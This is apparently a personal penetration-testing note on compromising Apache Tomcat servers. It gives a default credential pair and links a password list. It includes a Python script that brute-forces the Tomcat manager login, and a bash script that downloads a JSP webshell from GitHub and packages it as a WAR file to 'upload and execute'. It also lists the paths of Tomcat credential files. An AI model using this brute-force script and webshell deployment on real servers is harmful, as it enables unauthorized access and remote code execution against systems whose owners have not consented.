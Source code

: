```yaml
---
category: Uncategorized
tags: []
---
```

#### Login
Try `tomcat : s3cret`

If not successful, try this list:
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt

```python - kali
#!/usr/bin/env python
import sys
import requests

with open('tomcat-betterdefaultpasslist.txt') as f:
    for line in f:
        c = line.strip('\n').split(":")
        r = requests.get('http://$TARGET:8080/manager/html', auth=(c[0], c[1]))
        
        if r.status_code == 200:
            print "Found valid credentials \"" + line.strip('\n') + "\""
            raise sys.exit()
```

#### Malicious war upload

[[0._Reverse shells (WEB)#jar war]]

![[Pasted image 20220620190612.png]]

OR

wshell.sh
```bash - kali
#!/bin/sh 

wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp 

rm -rf wshell 
rm -f wshell.war 
mkdir wshell 
cp index.jsp wshell/ 
cd wshell 
jar -cvf ../wshell.war *
```

![[rlwrap]]

Upload and execute.


#### Configuration file
`/opt/tomcat/conf/tomcat-users.xml'

`/usr/share/tomcat9/conf/tomcat-users.xml`



